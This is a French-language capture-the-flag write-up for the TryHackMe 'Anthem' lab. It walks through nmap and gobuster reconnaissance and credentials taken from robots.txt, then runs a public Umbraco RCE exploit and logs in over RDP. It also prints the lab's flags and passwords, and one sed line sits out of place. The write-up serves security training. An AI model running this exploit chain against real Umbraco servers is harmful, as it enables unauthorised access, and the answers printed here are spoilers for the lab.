# Anthem # 

**Let's run nmap and check what ports are open.**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.252.89 anthem.thm' >> /etc/hosts "
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A -P0 anthem.thm
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-27 08:06 CEST
Nmap scan report for anthem.thm (10.10.252.89)
Host is up (0.033s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2021-07-27T06:07:09+00:00
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2021-07-26T06:02:03
|_Not valid after:  2022-01-25T06:02:03
|_ssl-date: 2021-07-27T06:08:14+00:00; +2s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.44 ms 10.9.0.1
2   33.06 ms anthem.thm (10.10.252.89)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.93 seconds
```

**What port is for the web server?**
D'arpès le scan nmap, c'est le port 80, on est situé le site web.   
Réponse : 80   

**What port is for remote desktop service?**
L'autre port est la prise de contrôle du bureau à distance.   
Réponse : 3389  

**What is a possible password in one of the pages web crawlers check for?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u  http://anthem.thm -w /usr/share/dirb/wordlists/common.txt -x txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://anthem.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/07/27 08:12:46 Starting gobuster in directory enumeration mode
===============================================================
/archive              (Status: 301) [Size: 118] [--> /]
/Archive              (Status: 301) [Size: 118] [--> /]
/authors              (Status: 200) [Size: 4060]       
/blog                 (Status: 200) [Size: 5384]       
/Blog                 (Status: 200) [Size: 5384]       
/categories           (Status: 200) [Size: 3531]       
Progress: 5244 / 18460 (28.41%)                       [ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dk": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/django": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dl": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dll": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dm": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dm-config": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dmdocuments": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dns": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 5276 / 18460 (28.58%)                       [ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/DMSDump": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/07/27 08:14:31 [!] Get "http://anthem.thm/dms": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/robots.txt           (Status: 200) [Size: 192]                
/robots.txt           (Status: 200) [Size: 192]                
/rss                  (Status: 200) [Size: 1855]               
/RSS                  (Status: 200) [Size: 1855]               
/Search               (Status: 200) [Size: 3410]               
/search               (Status: 200) [Size: 3410]               
/SiteMap              (Status: 200) [Size: 1024]               
/sitemap              (Status: 200) [Size: 1024]               
/tags                 (Status: 200) [Size: 3534]               
/umbraco              (Status: 200) [Size: 4078]               

tim@kali:~/Bureau/tryhackme/write-up$ curl http://anthem.thm/robots.txt
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

Avec gobuster on peut voir le fichier robots.txt est disponible.  
Dans le robots on trouve la réponse.  
Réponse : UmbracoIsTheBest!  

**What CMS is the website using?**tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/login = \"XXXX;/login = \"SG@anthem.com\";/g' 46153.py 

Dans les résultats gobuster on remarque que c'est umbraco.   
Réponse : umbraco.  

**What is the domain of the website?**


La réponse est : Anthem.com  

**What's the name of the Administrator**


On voit un poème.  



Sur Wikipedia que c'est Solomon Grundy.  
Réponse : Solomon Grundy.   

**Can we find find the email address of the administrator?**


Sur la page web we are hiring on voit un email qui JD@anthem.com, la mail été conçu avec la première lettre du prénom et du nom, puis on ajoute le domaine de mail.   
On faite de même pour l'administrateur.   
Qui done SG@anthem.com

Réponse : SG@anthem.com  

## Task 2 Spot the flags ##
**What is flag 1?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://anthem.thm/archive/we-are-hiring/ | grep "THM"
<meta content="THM{L0L_WH0_US3S_M3T4}" property="og:description" />
        <input type="text" name="term" placeholder="Search... 								THM{G!T_G00D}" />
```
Dans la page de récrutement dans le code source on trouve le premier flag.   
Réponse : THM{L0L_WH0_US3S_M3T4}

**What is flag 2?**
Dans la même page ci-dessus on trouve le deuxième flag.   
Réponse : THM{G!T_G00D}

**What is flag 3?**


En cliquant sur le lien Jane Doe on tombe sur la page ci-dessus avec le flag.  
La réponse est : THM{L0L_WH0_D15}  

**What is flag 4?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://anthem.thm/archive/a-cheers-to-our-it-department/ | grep "THM"
<meta content="THM{AN0TH3R_M3TA}" property="og:description" />
        <input type="text" name="term" placeholder="Search... 								THM{G!T_G00D}" />
```

Notre dernier flag se trouve dans le code source de la page a-cheers-to-our-it-department.   
Réponse : THM{AN0TH3R_M3TA} 

## Task 3 Final stage ##

**Let's figure out the username and password to log in to the box.(The box is not on a domain)**



Dans la page de connexion du site utilisons la l'email et le mot pas trouvé dans les questions précédentes.  
Email : SG@anthem.com  
Mot de passe : UmbracoIsTheBest!  

**Gain initial access to the machine, what is the contents of user.txt?**


Dans panneau de configuration de umbraco dans l'aide pour voir la version d'umbraco. 
La version est la 7.15.4  

[umbraco-exploit](https://github.com/noraj/Umbraco-RCE)

On trouve un exploit un umbraco.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/Umbraco-RCE$ python3 exploit.py -u SG@anthem.com -p UmbracoIsTheBest!  -i 'http://anthem.thm' -c 'powershell.exe' -a "net user"

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
SG                       WDAGUtilityAccount       
The command completed with one or more errors.
```

On exécute l'exploit pour connaître les noms d'utilisateurs.   
Ici on SG qui va nous servir.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/Umbraco-RCE$ xfreerdp /u:SG /p:UmbracoIsTheBest!  /v:anthem.thm
```

**Gain initial access to the machine, what is the contents of user.txt?**



On se connect avec l'utilisateur SG et le bon mot de passe.   
On trouve notre flag sur le bureau.   
La réponse est : THM{N00T_NO0T} 



Dans les options d'affichage des fichiers cocher la case pour afficher les fichier cachés. 
Il y a dans la racine du disque un répertoire caché au nom de backup.  




Nous avons pas les droits en lecture pour lire le fichier.  
Dans les permissions ajoutez le droit en lecture pour l'utilisateur SG.    

**Can we spot the admin password?**



Nous avons le mot de passe admin.  
Réponse : ChangeMeBaby1MoreTime 

**Escalate your privileges to root, what is the contents of root.txt?**

Allez dans c:\\User\\Administrator. 



Il demande les droits on a le mot passe admin.   




Dans le bureau on peut lire le fichier root.  
La réponse est : THM{Y0U_4R3_1337}   